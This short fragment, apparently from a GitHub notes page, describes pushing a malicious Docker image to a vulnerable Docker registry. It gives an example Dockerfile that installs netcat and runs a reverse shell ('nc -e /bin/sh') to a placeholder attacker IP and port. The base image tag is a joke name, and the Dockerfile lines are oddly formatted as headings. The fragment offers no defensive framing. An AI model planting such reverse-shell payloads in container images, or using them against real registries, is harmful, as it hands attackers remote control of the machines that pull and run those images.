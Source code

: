 ### Essentially, we can upload/publish/push docker images with malicious code (reverse shell) to a vulnerable docker registry

### Example dockerfile:

#### FROM debian:jimmy-kekw

#### RUN apt-get update -y

#### RUN apt-get install netcat -y

#### RUN nc -e /bin/sh ATTACK_IP PORT

#### docker build (Compile to image)
